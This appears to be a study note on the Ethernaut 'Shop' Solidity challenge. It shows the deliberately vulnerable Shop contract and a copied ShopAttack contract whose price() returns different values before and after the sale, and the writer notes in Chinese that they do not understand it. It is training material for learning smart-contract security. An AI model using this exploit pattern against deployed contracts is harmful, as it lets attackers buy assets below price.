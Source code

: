 Сan you get the item from the shop for less than the price asked?

##### Things that might help:

- `Shop` expects to be used from a `Buyer`
- Understanding restrictions of view functions

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```







Resolution

https://github.com/Jeiwan/ethernaut-solutions/blob/main/contracts/ShopAttack.sol

和Elevator一样，完全不懂啥意思

```solidity
contract ShopAttack {
    function attack(address _target) public {
        Shop(_target).buy();
    }

    function price() public view returns (uint256) {
        return Shop(msg.sender).isSold() ? 1 : 101;
    }
}
```



